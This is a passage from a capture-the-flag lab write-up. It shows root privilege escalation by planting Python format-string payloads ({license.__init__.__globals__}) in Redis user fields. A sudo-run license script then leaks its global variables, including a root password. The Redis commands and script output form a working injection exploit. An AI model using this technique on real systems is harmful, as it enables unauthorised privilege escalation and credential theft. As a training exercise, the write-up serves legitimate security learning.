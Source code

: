 I first tried to use HSET to insert a user of our own choosing:

{% code overflow="wrap" %}
```
redis /run/redis/redis.sock> HSET testuser username testing username {self.__init__.__globals__} password {self.__init__.__globals__} first-name {self.__init__.__globals__} last-name {self.__init__.__globals__} pro false
(integer) 5

cooper@format:~$ sudo /usr/bin/license -ptestuser
Traceback (most recent call last):
  File "/usr/bin/license", line 65, in <module>
    license_key = (prefix + username + "{license.license}" + firstlast).format(license=l)
KeyError: 'self'
```
{% endcode %}

We can see that this is making an error occur within the script. We can see that the `format()` function uses `license=l`, so we can use that to dump the script's global context out:

{% code overflow="wrap" %}
```
redis /run/redis/redis.sock> HSET ee username {license.__init__.__globals__} password test first-name test last-name test pro false
(integer) 5

cooper@format:~$ sudo /usr/bin/license -p ee

Plaintext license key:
------------------------------------------------------
microblog{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7f7d64b4fc10>
<TRUNCATED>
```
{% endcode %}

Within this entire string is the `root` password of :`unCR4ckaBL3Pa$$w0rd`. We can then `su` to `root`.

<figure><img src="../../.gitbook/assets/image (3194).png" alt=""><figcaption></figcaption></figure>

Rooted!
